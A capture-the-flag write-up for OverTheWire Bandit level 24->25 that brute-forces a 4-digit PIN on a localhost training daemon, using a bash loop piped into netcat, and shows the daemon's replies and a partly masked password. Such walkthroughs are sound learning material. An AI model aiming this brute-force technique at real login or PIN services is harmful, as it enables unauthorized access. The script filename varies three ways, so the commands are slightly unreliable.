 ```yaml
---
title: Overthewire Bandit Level 24-> 25
date: '2022-01-07 22:05:00'
description: ''
categories: [OverTheWire, Bandit]
tags: [overthewire, bandit]
---
```


Solution for the Overthewire.org [Bandit level 24 -> 25](https://overthewire.org/wargames/bandit/bandit25.html){:target="\_blank"}

## Level Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

---

## Walkthrough

Login to the server using the password obtained from the previous level [Bandit level 23 -> 24]({% post_url 2021-12-06-bandit23-24 %}).

username: `bandit24`

```ssh
ssh bandit24@bandit.labs.overthewire.org -p 2220
```

For this challenge we need to send a password to a specific port on localhost, we have done this before on previous levels but the difference this time is that we need to send a 4 digit pincode with the password.  
Unfortunately we do not know what the pincode is so we will need to try all possible combinations until we get the right one.

The first thing to do is to connect to port 30002 and see what it is doing.  
We can use netcat to connect to port 30002 on localhost.

```shell
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. 
Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
UoMYTr########################## 1234
Wrong! Please enter the correct pincode. Try again.

Fail! You did not supply enough data. Try again.
UoMYTr 124
Wrong! Please enter the correct current password. Try again.

bandit24@bandit:~$
```

What we can see is that the daemon running on port 30002 wants the data entered in a specific format.  
```<BANDIT24 PASSWORD> <4 DIGIT PIN>```

The daemon first checks if the password is correct before checking the pincode.  
If the password is incorrect we get a message stating that the password was incorrect. The pincode is not checked.  
If the password is correct and the pincode is incorrect we get a different message stating the pincode is incorrect.
Since we are using the same password used to login to this level we should not see the password incorrect message.

The daemon wants a 4 digit pincode so we need to check all pincodes from 0000 to 9999 to find the correct one.  
Doing this by hand would take a long time (10,000 pincodes to check). It is more efficient to create a program to do this for us.

First lets create a directory in `/tmp` to work from

```shell
bandit24@bandit:~$ mkdir /tmp/work_dir
bandit24@bandit:~$ cd /tmp/work_dir
bandit24@bandit:/tmp/work_dir$
```

Now to create a bash script to create all 10,000 password pincode combinations we need to test.
I used vim to create a file try_passwords.sh and wrote this code into it.

```bash
#!/bin/bash

for i in {000..9999}
do
    echo UoMYTr************************** $i 
done
```

The code will create all 4 digit pincodes we need.
Next we need to give the file execute permissions

```shell
bandit24@bandit:/tmp/work_dir$ chmod +x try_password.sh
```

Now all thats left is to run the bash script and send it's output to netcat.  
This will run for a while as it is trying 10,000 pincodes but eventually you will see the correct message and get the password for bandit25.

```shell
bandit24@bandit:/tmp/work_dir$ ./try_pass.sh | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is uNG9O5##########################

Exiting.
bandit24@bandit:/tmp/work_dir$
```
